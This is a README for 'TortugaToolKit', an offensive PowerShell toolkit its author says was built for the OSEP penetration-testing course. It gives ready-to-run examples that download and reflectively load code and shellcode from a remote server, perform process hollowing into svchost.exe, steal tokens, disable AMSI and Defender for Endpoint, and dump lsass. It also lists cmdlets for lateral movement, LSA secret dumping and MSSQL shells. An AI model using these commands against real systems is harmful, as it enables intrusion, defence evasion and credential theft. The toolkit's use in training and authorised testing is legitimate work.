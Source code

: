 # TortugaToolKit

Written during OSEP course, for learning purposes. Used heavily during the exam with much success. Thanks to all the open source projects out there that i was able to use and learn from.

## Examples

Load it

```powershell
$a=[System.Reflection.Assembly]::Load($(IWR -Uri http://yourserver/TurtleToolKit.dll -UseBasicParsing).Content);
Import-Module -Assembly $a

Untested but should work. maybe.
$test=((IWR -Uri 'http://yourserver/turtletoolkit.dll' -UseBasicParsing).RawContent);
$len=$test.length;$test.SubString($len-($len -198));$a=[System.Reflection.Assembly]::Load($test);
Import-Module -Assembly $a

```

Example of remotely loading and encrypting shellcode, then performing proc hollow with it
```powershell
$code = Invoke-EncryptShellcode -shellcode $(IWR -Uri 'http://ip/shellcode.bin' -usebasicparsing).Content
INVPH -encsh $code.encryptedShellcode -k $code.encryptionKey -ivk $code.initVectorKey -pn 'svchost.exe' -Verbose
```
Example of performing ping sweep then admin check on subnet
```powershell
$s = Invoke-PingSweep -s "172.16.23.0";
foreach($h in $s){Invoke-AdminCheck -t $h}

Invoke-AdminCheck -h $(Invoke-PingSweep -s "172.16.75.0")
```
Example of impersonation via process token then running SharpView (or sharphound) as that domain user
```powershell
Invoke-TokenStealer -procH $false

Get-CurrentIdentity

Invoke-TurtleView -c "Get-DomainComputers";
Invoke-TurtleHound
```
Example of disabling amsi then disabling defender for endpoint and performing lsass process dump
```powershell
Disable-AyEmEsEye -Verbose
Disable-DefenderForEndpoint
Invoke-TurtleDump
Enable-DefenderForEndpint

```
Example of loading and executing a c# assembly
```powershell
Invoke-AssemblyLoader -e $false -l $false -path "http://ip/payload" -name namespace -clss targetclass -run method

```

## Cmdlets

```
Disable-AyEmEsEye
Disable-DefenderForEndpoint
Disable-Etw
Enable-DefenderForEndpoint
Enable-Privileges
Get-ActiveDirectoryComputers
Get-ActiveDirectoryForests
Get-ActiveDirectoryGroupMembership
Get-ActiveDirectoryGroups
Get-ActiveDirectoryUsers
Get-CurrentIdentity
Get-MsSQLQuery
Get-SQLInfo
Get-System
Get-TrustedInstaller
Invoke-AdminCheck
Invoke-AssemblyLoader
Invoke-ClassicInjection
Invoke-FileLessLateralMovement
Invoke-LsaSecretsDmp
Invoke-MsSQLAssembly
Invoke-MsSQLShell
Invoke-PingSweep
Invoke-ProcessHollow
Invoke-ShellcodeEncryption
Invoke-TokenStealer
Invoke-TurtleDump
Invoke-TurtleHound
Invoke-TurtleUp
Invoke-TurtleView
Undo-Impersonation

```
